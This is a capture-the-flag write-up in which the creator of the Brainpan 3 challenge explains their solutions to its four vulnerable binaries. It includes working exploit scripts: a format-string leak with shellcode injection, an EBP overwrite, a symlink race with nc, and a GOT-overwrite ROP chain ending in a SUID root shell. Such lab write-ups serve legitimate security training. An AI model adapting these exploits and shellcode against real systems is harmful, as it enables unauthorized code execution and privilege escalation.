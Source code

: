 ```yaml
---
layout: post
title: "Brainpan 3 solution"
date: 2015-10-13 05:10:00 -0400
comments: true
categories: boot2root
---
```


It's been a little over 3 months now since Brainpan 3 was first released. I offered stickers to those who could solve the challenge and I was not disappointed with the results! Some brilliant folks out there solved it in some very interesting ways. Since I've already given away all the stickers, I figured I'd go ahead and share my solution for the challenges. This won't be a step-by-step walkthrough. If you want a full walkthrough, you'll find some great ones [here](https://www.vulnhub.com/entry/brainpan-3,121/). 

First up, the report binary. The report binary has ASLR, NX, and stack canaries. It takes two arguments, a string, and a value of either 0, or 1. You would've noticed that setting the second argument to 0 would cause a segmentation fault. This occurs in the record\_id() function when it tries to copy the string to a 3 byte buffer. record\_id() is only called when the second argument is set to 0. Although it's compiled with -fstack-protector, stack canaries aren't enabled on functions that have arrays of less than 4 bytes, and so it doesn't trigger a stack smashing protection error. Now on the server, the report binary is running with the second argument set to 0. That means to exploit this, you'd need to provide a large enough string to overwrite argv[2] on stack to a value of 0 in order to trigger the call to record\_id() and thereby gain control of EIP. In this case, sending a null terminated string of 276 bytes will set argv[2] to 0. 

```python
#!/usr/bin/env python
from pwn import *

log.info("Connecting to brainpan3")
r = remote("192.168.74.171", 1337)
r.recv()

r.send("%p.%p.%p.%p.%p.%p.%p\n")
data = r.recvline().split(".")
access_code = str(int(data[2],16))
log.info("Leaked access code: " + access_code)
r.send(access_code + "\n")

r.recvuntil("ENTER COMMAND: ")
r.send("3\n")

r.recvuntil("ENTER NEW SESSION NAME: ")
buf = ""
buf += "A"*248
buf += "Y"*5
buf += "\n"
r.send(buf)

r.recvuntil("ENTER COMMAND: ")

r.send("1\n");
r.recv()
r.recv()

log.info("Sending payload")
r.send("AAA" + "\xa7\xb0\x04\x08" + "\x90"*9 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "B"*239 + "\n")

log.info("Getting shell")
r.interactive()
```

Moving on to the cryptor binary. This binary is stripped but has no NX and no stack canary. Right at the beginning, it calls a function 0x80485ed. A vulnerability in this function allows you to overwrite the least significant byte of EBP to 0x00 when a file length of 116 bytes is provided as the first argument. Due to ASLR, the end value of EBP right before this function returns always points to a random location. Now when this function returns to main(), main() calls leave which restores ESP from the overwritten EBP, thereby allowing you to return to some address of your choosing. 

There's a static buffer in the binary which stores the value of the second argument; the key. This buffer address never changes, so it's an ideal place to store the shellcode. The solution then is to overwrite EBP such it points to the static buffer so that when ESP is restored from EBP, main() will return to your shellcode. Again, due to ASLR, it might take a few tries before you get an address that points to your shellcode. 

```bash
#!/bin/bash

echo "[+] May need to run this several times before you get a shell"
python -c 'from pwn import *; print asm(shellcraft.linux.sh())' > sc.txt
./cryptor `python -c 'print "\x80\xa0\x04\x08"*29'` `cat sc.txt`
``` 

Ok, halfway there. Next up is the trixd binary. This binary has a couple of anti-reversing features; a call to ptrace() to prevent it from being run within gdb, and its ELF headers have been corrupted to prevent disassembly with objdump and readelf. However, you can use radare2 or IDA Pro's evaluation software to get the whole picture. You'd see that it's actually vulnerable to a race condition which would allow you to symlink puck's key to /mnt/usb/key.txt and give you access to puck's shell. 

On one terminal run:

```text
$ for i in `seq 1 5000`; do rm -f key.txt; ln -s /home/puck/key.txt; done
```

And on another:

```
$ for i in `seq 1 3000`; do nc localhost 7075; done
```

The race is relatively easy to win and you should get a shell as puck.

Ok, the final binary which stumped quite a few folks! For those of you that managed to beat it, congratultaions! The vulnerability is a pointer overwrite in the heap. This allows you to overwrite strcpy()'s GOT pointer so that when strcpy() is called again, it ends up executing your code. The binary has NX, ASLR, and stack canaries, so you need to craft a ROP chain to get a shell. Your end goal is to execute system("/tmp/foo"). The tricky part is figuring out how to get the address of system(). It's actually easily done through GOT dereferencing, described in this [paper](https://trailofbits.github.io/ctf/exploits/references/acsac09.pdf). 

The gist of it is to calculate the difference betweent the offset of system(), and the offset of another function in the binary that's already been called at least once. In this case, I used getline(). The reason you want a function that's been called at least once is because its GOT entry resolves to the function's actual address. The address of system() can therefore be calculated using *getline@GOT + (system() offset - getline() offset). 

All the gadgets needed to do this are in the binary. Here's my solution:

```python
#!/usr/bin/env python
from struct import *

"""
offset system() - getline() = 0xfffea050
getline GOT: 0x0804b00c
system() = *0x0804b00c + 0xfffea050
"""

buf  = ""
buf += "AAAA|"

buf += pack("<I", 0x8048d6e)    # popa; cld
buf += "dddd"                   # edi 
buf += "ssss"                   # esi
buf += "pppp"                   # ebp
buf += "zzzz"                   # padding
buf += pack("<I", 0x6ddad08)    # ebx, adjusted getline@got-0xe
buf += "dddd"                   # edx
buf += "cccc"                   # ecx
buf += pack("<I", 0xfffea050)   # pops into eax, offset system()-getline()
buf += pack("<I", 0x8048feb)    # add eax,[ebx+0x1270304]; ret
buf += pack("<I", 0x8048786)    # call eax
buf += pack("<I", 0x8048eef)    # pointer to /tmp/foo
buf += "Z"*164

buf += pack("<I", 0x0804b02c)   # got-entry to overwrite
buf += "\n"

buf += pack("<I", 0x8048ddc)    # rop gadget; pop4ret
buf += "|"
buf += "bbbb"

f = open("a.msg", "w")
f.write(buf)
f.close()

print "Make sure to create /tmp/foo that will run our payload"
```

For /tmp/foo, I just wrote a short bash script that copied /bin/sh to /tmp and made it SUID root. 

And that's it! Thanks again to everyone who attempted the challenge and for your comments and solutions! All the positive feedback gives me an excuse to maybe plan ahead for another Brainpan challenge and of course, more stickers.

